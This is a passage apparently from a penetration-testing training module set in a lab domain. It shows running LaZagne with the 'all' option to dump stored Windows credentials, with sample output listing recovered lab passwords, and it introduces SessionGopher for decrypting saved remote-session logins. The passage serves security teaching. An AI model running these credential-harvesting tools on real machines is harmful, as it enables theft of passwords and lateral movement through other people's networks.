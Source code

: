 ### Running All LaZange Modules

As we can see from the example below, many applications do not store credentials securely (best never to store credentials, period!). They can easily be retrieved and used to escalate privileges locally, move on to another system, or access sensitive data.
```powershell-session
PS C:\htb> .\lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

########## User: jordan ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: transfer.inlanefreight.local
Login: root
Password: Summer2020!
Port: 22

------------------- Credman passwords -----------------

[+] Password found !!!
URL: dev01.dev.inlanefreight.local
Login: jordan_adm
Password: ! Q A Z z a q 1

[+] 2 passwords have been found.

For more information launch it again with the -v option

elapsed time = 5.50499987602
```

## Even More Fun with Credentials

We can use [SessionGopher](https://github.com/Arvanaghi/SessionGopher) to extract saved PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP credentials. The tool is written in PowerShell and searches for and decrypts saved login information for remote access tools. It can be run locally or remotely. It searches the `HKEY_USERS` hive for all users who have logged into a domain-joined (or standalone) host and searches for and decrypts any saved session information it can find. It can also be run to search drives for PuTTY private key files (.ppk), Remote Desktop (.rdp), and RSA (.sdtid) files.

### Running SessionGopher as Current User
